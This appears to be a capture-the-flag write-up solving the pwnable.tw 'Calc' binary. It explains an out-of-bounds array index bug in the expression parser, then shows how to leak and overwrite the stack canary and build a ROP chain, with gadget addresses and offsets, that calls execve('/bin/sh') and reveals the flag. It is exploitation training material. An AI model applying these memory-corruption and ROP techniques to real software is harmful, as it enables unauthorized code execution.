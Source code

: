 # Pwnable.tw -- Calc (150 pts)
(Some contents are refered to [this post](https://medium.com/@sagidana/calc-pwnable-tw-ef5450f40253))

The main code is in calc  
As we can see in 'dissass calc', the calc function calls get_expr, init_pool, and parse_expr  
We can further what these functions do using Ghidra  

## Ghidra
- get_expr: it takes a char array and a limit as inputs, then read from stdin for one byte until exceed the limit (0x400).  
also, if it reads newline or an error, the loop ends. Input only accept +-*/% and '0'~'9'.  
It will return the read size. Nothing vulnerable here...  
- init_pool: just fill a pointer with 0 (len 100)

- parse_expr: things getting fishy in this function. The amount of new declared variables is driving me dizzy...

The read formula in "get_expr" and a blank int pointer will serve as inputs. 
The int pointer will be used to store numeraic values. (atoi)  
it works somehow like this..  
first copy "idx" bytes from operation input  
** Note if there's 0, program will raise error  
and try atoi the previous byte before operator, see if it is number  

Let's say the formula is "1 + 4 * 3 / 2"

idx = 0:
(1) + 4 ...

idx = 1:
1 (+) 4 ...
num_arr = [1, ]
op_arr = [+, ]

in the operation loop:  
first time encounter op, just write it to op_arr
later, if there's already an op...
if the current op. is '*','/','%'
e.g.: 1 + 4 (*) 3, 
and current op. is '+', the op_idx will increase one and '*' is write to op_arr
if current op. is not '+''-', it will be evaled (multply first, addition last!)

**  some expression such as "100 +", "100 + -" are also filtered

when read to EOF of operations, all expression will be evaled backwards  


## Vulenrability
What if "+100" ?

idx = 0:
(+)100
num_arr = [] (init with 0)
op_arr = [+, ]

the program first meet +, with no element in num_arr
+(100)
num_arr = [100, ]
op_arr = [+, ]


/* This part is very difficult for me :( */

When evaling at addition, it will be like this 
*num_arr-1 = *num_arr-1 + *num_arr (100)

What's *num_arr-1 ?
Let's look back to the "calc", the following value is printed:

    int offset;
    int in_GS_OFFSET;
    int arr_100; // the array processed at "eval"
    undefined4 auStack_5a0 [100]; // the base address
    undefined operators_and_nums [1024];
    ...
    offset = parse_expr(operators_and_nums,&arr_100);
    if (offset != 0) {
        printf("%d", auStack_5a0[arr_100 + -1]);
    ...

We can see that *num_arr-1 refers to the base address "auStack_5a0"
This means that we can actually access memory by our input! ( +xxx --> auStack_5a0[xxx] )


To test this vulnerability, let's print the value of canary
By examining the top of "calc", we can find canary is stored in ebp - 0xc
Canary information is at 0x8049388, which means we can examine its value by printing $eax

        08049382 65  a1  14       MOV        EAX ,GS:[0x14 ]
                 00  00  00
        08049388 89  45  f4       MOV        dword ptr [EBP  + -0xc ],EAX
        0804938b 31  c0           XOR        EAX ,EAX


                             undefined  calc ()
             undefined         AL:1           <RETURN>                                XREF[1]:     080493b4 (W)   
             undefined4        GS_OFFSET:4    in_GS_OFFSET
             undefined4        EAX:4          offset                                  XREF[1]:     080493b4 (W)   
             undefined4        Stack[-0x10]:4 iStack_10
             undefined1[102    Stack[-0x410   operators_and_nums
             undefined1[400]   Stack[ **-0x5a0**   auStack_5a0
             undefined4        Stack[-0x5a4   arr_100
                             calc                                            XREF[3]:     Entry Point (*) , 
                                                                                          main:08049494 (c) , 080dbdd8 (*)   
        08049379 55              PUSH       EBP

And the base address of printed array is at -0x5a0
0x5a0 - 0xc = 0x594 = 1428
1428 / 4 = 357, so by "+357", the canary value will be shown

## Exploit Weakness
We can modify the memory content as well, below I modify canary value, which cause stack smashing of course
```
+357
-1808023296
+357+1
-1808023295
+357
-1808023295

*** stack smashing detected ***: /home/pfliu/picoCTF/pwn/pwnable_tw/calc_dir/calc terminated
```

But, as we checksec the program, we can find that 'Nx' flag is on.
We have to use ROP gadgets instead of putting shellcode on stack 
### ROP
search for gadget like "jmp esp", "jmp edx"
I found "jmp 0x804983d" right behind printf
so put shellcode to this address should deal the problem, right? (X)

Let's deal with address first
address offset: (relative to the base exploited address)
357 -- canary
360 -- old rbp (examine by using p $ebp on breakpoint when canary getting stored in stack)
361 -- ret addr (0x8049499: this is where 'main' call 'calc')

Knowing the offsets, we want to call execve('/bin/shell'), 
in order to do that we need 
eax = 0xb, ebx = esp, ecx = edx = 0

need to find pop eax, ret --> RopGadget
- 0x0805c34b : pop eax ; ret
- 0x080701d0 : pop edx ; pop ecx ; pop ebx ; ret
- 0x08049a21 : int 0x80

    | 0x0805c34b  | 0xb |  ... | xxx |  
        pop eax                 int 0x80

#### stack issue
To start the ROP chain, we rewrite the return addr with first address (0x0805c34b)
*But... we have to place $ebx with address that store "/bin/sh".. where is stack located ?*

We can simply put the string behind, like this

```
    pop eax      362                 $edx       $ecx    $ebx     int 0x80      368            370
| 0x0805c34b  | 0xb | 0x080701d0 |  (369)  |  (368) |  (370) |  0x08049a21 |  370  |  \0  | /bin | /sh\0 |
```

#### How to find esp address ?
break at 0x8049433 (where calc's "return" is located)
then print 100 lines starting from $esp-4

```
(gdb) x/100x $esp-4
0xff960ac8:     0xff960ae8 (old rbp)       0x08049499 (return addr)     0x080ec200      0x08049434
0xff960ad8:     0xff960b7c                 0x080481b0                   0x00000000      0x080ec00c
...
```

esp is point to 0xff96ac4, so the distance between old and new ebp is 28

### skip signal
btw, it is possible to bypass alarm signal.
Just write Python script for GDB interpreter. (This program can be found in "nosignal.py")
set breakpoint at 0x804945b, then use command "set $eip=0x804947b"

        08049458 83  ec  10       SUB        ESP ,0x10
        -------------------signal start------------------
        0804945b c7  44  24       MOV        dword ptr [ESP  + 0x4 ],0x8049434
                 04  34  94 
                 04  08
        08049463 c7  04  24       MOV        dword ptr [ESP ],0xe
                 0e  00  00  00
        0804946a e8  61  4e       CALL       signal                                           undefined signal()
                 00  00
        0804946f c7  04  24       MOV        dword ptr [ESP ],0x3c
                 3c  00  00  00
        08049476 e8  f5  48       CALL       alarm                                            undefined alarm()
                 02  00
        0804947b c7  04  24       MOV        dword ptr [ESP ],0x80bf81c
                 1c  f8  0b  08

## Bingo !
Finally, we can execute /bin/sh to get the flag!
FLAG{C:\Windows\System32\calc.exe}